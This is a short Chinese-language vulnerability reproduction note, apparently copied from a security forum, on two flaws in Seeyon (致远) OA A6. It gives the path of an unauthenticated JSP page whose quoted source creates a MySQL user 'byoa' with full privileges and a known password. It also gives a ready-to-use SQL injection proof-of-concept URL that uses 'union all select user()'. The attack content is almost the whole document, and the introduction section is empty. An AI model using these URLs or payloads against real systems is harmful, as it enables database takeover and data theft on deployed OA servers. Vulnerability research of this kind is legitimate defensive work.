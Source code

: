 # 致远OA A6 重置数据库账号密码漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3349](https://www.zhihuifly.com/t/topic/3349)

# 致远OA A6 重置数据库账号密码漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

### 重置数据库账号密码防御

```
http://www.0-sec.org/yyoa/ext/byoa/start.jsp 
```

该文件的代码为：

```
<%	Connection conn = null;	PreparedStatement pstmt = null;	String sql = "create user byoa IDENTIFIED by 'byoa'";	try {		conn = null;//net.btdz.oa.common.ConnectionPoolBean.getConnection();		pstmt = conn.prepareStatement(sql);		out.print(pstmt.executeUpdate());		sql = "grant all on *.* to byoa";		pstmt = conn.prepareStatement(sql);		out.println(pstmt.executeUpdate());		pstmt.close();		sql = "update mysql.user set password=password('byoa') where user='byoa'";		pstmt = conn.prepareStatement(sql);		out.println(pstmt.executeUpdate());		pstmt.close();		sql = "flush privileges";		pstmt = conn.prepareStatement(sql);		out.print(pstmt.executeUpdate());		pstmt.close();		//conn.close();	} catch (Exception ex) {					out.println(ex.getMessage());	}%> 
```

可以抛光该文件没有验证任何权限，便进行了重置数据库用户byoa的密码为：byoa

### mysql + jsp注射

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp 
```

### poc

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp?user_ids=(17) union all select user()%23{'success':false,'errors':'root@localhost'} 
```